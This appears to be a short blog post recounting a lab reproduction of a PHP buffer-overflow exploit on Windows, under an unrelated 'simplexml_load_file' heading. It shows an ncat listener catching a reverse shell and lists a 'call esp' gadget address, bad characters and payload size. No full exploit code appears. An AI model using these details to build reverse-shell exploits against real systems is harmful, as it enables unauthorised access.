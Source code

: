 #Php Simplexml_load_file Stack Overflow

    osce32@ubuntu:~# ncat -lvp 4444
    Ncat: Version 7.25BETA2 ( https://nmap.org/ncat )
    Ncat: Listening on :::4444
    Ncat: Listening on 0.0.0.0:4444
    Ncat: Connection from 192.168.126.134.
    Ncat: Connection from 192.168.126.134:49255.
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\Users\IEUser\Desktop>

Came across an exploit that was found by Yakir Wizman, which you can find here: 
http://www.black-rose.ml/2016/09/exploiting-php-for-fun-and-non-profit.html  
I highly suggest reading as he has very interesting work :)

Thought it would be awesome to see how he did it and learned a few things along the way as I have never done it to anything PHP. This was pretty interesting to say the least in making it work :)

So what I used were:  
1. 0x1017c6af : call esp    
2. Bad chars were: 0x00 and 0x5c    
3. Payload is 371 bytes. It's a reverse shell so it only works for me ;)    
